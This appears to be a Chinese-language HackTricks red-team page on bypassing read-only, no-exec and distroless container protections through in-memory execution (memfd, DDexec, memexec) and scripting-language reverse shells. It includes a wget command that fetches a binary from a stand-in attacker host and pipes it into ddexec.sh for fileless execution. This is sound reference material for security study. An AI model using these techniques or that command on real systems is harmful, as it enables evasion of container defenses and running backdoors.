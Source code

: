 # 绕过文件系统保护：只读 / 无执行 / Distroless

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果你对 **黑客职业** 感兴趣并想要攻克不可攻克的目标 - **我们正在招聘！** (_需要流利的波兰语书写和口语能力_).

{% embed url="https://www.stmcyber.com/careers" %}

## 视频

在以下视频中，你可以找到本页面提到的技术的更深入解释：

* [**DEF CON 31 - 探索 Linux 内存操控以实现隐蔽和规避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**使用 DDexec-ng 和内存 dlopen() 的隐蔽入侵 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## 只读 / 无执行场景

在 Linux 机器上发现 **只读 (ro) 文件系统保护** 的情况越来越普遍，特别是在容器中。这是因为运行一个只读文件系统的容器就像在 `securitycontext` 中设置 **`readOnlyRootFilesystem: true`** 一样简单：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

然而，即使文件系统被挂载为只读，**`/dev/shm`** 仍然是可写的，因此我们不能写入磁盘的说法是错误的。然而，这个文件夹将会 **挂载为无执行保护**，所以如果你在这里下载一个二进制文件，你 **将无法执行它**。

{% hint style="warning" %}
从红队的角度来看，这使得 **下载和执行** 系统中未存在的二进制文件（如后门或枚举工具如 `kubectl`）变得 **复杂**。
{% endhint %}

## 最简单的绕过：脚本

请注意，我提到的是二进制文件，只要解释器在机器内部，你可以 **执行任何脚本**，例如如果 `sh` 存在则可以执行 **shell 脚本**，或者如果安装了 **python** 则可以执行 **python 脚本**。

然而，这并不足以执行你的二进制后门或其他你可能需要运行的二进制工具。

## 内存绕过

如果你想执行一个二进制文件，但文件系统不允许这样做，最好的方法是 **从内存中执行它**，因为 **保护措施不适用于内存**。

### FD + exec 系统调用绕过

如果你在机器内部有一些强大的脚本引擎，例如 **Python**、**Perl** 或 **Ruby**，你可以将二进制文件下载到内存中执行，将其存储在一个内存文件描述符中（`create_memfd` 系统调用），这个描述符不会受到这些保护的影响，然后调用 **`exec` 系统调用** 指定 **fd 作为要执行的文件**。

为此，你可以轻松使用项目 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)。你可以传递一个二进制文件，它将生成一个指定语言的脚本，包含 **压缩和 b64 编码的二进制文件** 以及 **解码和解压缩** 的指令，存储在通过调用 `create_memfd` 系统调用创建的 **fd** 中，并调用 **exec** 系统调用来运行它。

{% hint style="warning" %}
这在其他脚本语言如 PHP 或 Node 中不起作用，因为它们没有任何 **默认方式从脚本调用原始系统调用**，因此无法调用 `create_memfd` 来创建 **内存 fd** 来存储二进制文件。

此外，使用 `/dev/shm` 中的文件创建 **常规 fd** 也不起作用，因为你将无法运行它，因为 **无执行保护** 将适用。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) 是一种技术，允许你通过覆盖 **`/proc/self/mem`** 来 **修改你自己进程的内存**。

因此，**控制正在被进程执行的汇编代码**，你可以编写 **shellcode** 并“变异”该进程以 **执行任何任意代码**。

{% hint style="success" %}
**DDexec / EverythingExec** 将允许你从 **内存** 中加载和 **执行** 你自己的 **shellcode** 或 **任何二进制文件**。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
有关此技术的更多信息，请查看 Github 或：

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) 是 DDexec 的自然下一步。它是一个 **DDexec shellcode demonised**，因此每次您想要 **运行不同的二进制文件** 时，您无需重新启动 DDexec，只需通过 DDexec 技术运行 memexec shellcode，然后 **与此守护进程通信以传递要加载和运行的新二进制文件**。

您可以在 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) 找到如何使用 **memexec 从 PHP 反向 shell 执行二进制文件** 的示例。

### Memdlopen

与 DDexec 目的相似， [**memdlopen**](https://github.com/arget13/memdlopen) 技术允许以 **更简单的方式加载二进制文件** 到内存中以便稍后执行。它甚至可以加载带有依赖项的二进制文件。

## Distroless Bypass

### 什么是 distroless

Distroless 容器仅包含 **运行特定应用程序或服务所需的最低组件**，例如库和运行时依赖项，但排除了较大的组件，如包管理器、shell 或系统实用程序。

Distroless 容器的目标是 **通过消除不必要的组件来减少容器的攻击面**，并最小化可以被利用的漏洞数量。

### 反向 Shell

在 distroless 容器中，您可能 **甚至找不到 `sh` 或 `bash`** 来获取常规 shell。您也不会找到 `ls`、`whoami`、`id` 等二进制文件……您通常在系统中运行的所有内容。

{% hint style="warning" %}
因此，您 **将无法** 获取 **反向 shell** 或 **枚举** 系统，如您通常所做的那样。
{% endhint %}

然而，如果被攻陷的容器正在运行例如 flask web，那么 python 已安装，因此您可以获取 **Python 反向 shell**。如果它正在运行 node，您可以获取 Node 反向 shell，几乎任何 **脚本语言** 都是如此。

{% hint style="success" %}
使用脚本语言，您可以 **使用语言功能枚举系统**。
{% endhint %}

如果没有 **`read-only/no-exec`** 保护，您可以利用您的反向 shell **在文件系统中写入您的二进制文件** 并 **执行** 它们。

{% hint style="success" %}
然而，在这种类型的容器中，这些保护通常会存在，但您可以使用 **先前的内存执行技术来绕过它们**。
{% endhint %}

您可以在 [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) 找到 **示例**，了解如何 **利用一些 RCE 漏洞** 获取脚本语言的 **反向 shell** 并从内存中执行二进制文件。

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果您对 **黑客职业** 感兴趣并想要攻克不可攻克的目标 - **我们正在招聘！** (_需要流利的波兰语书写和口语能力_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

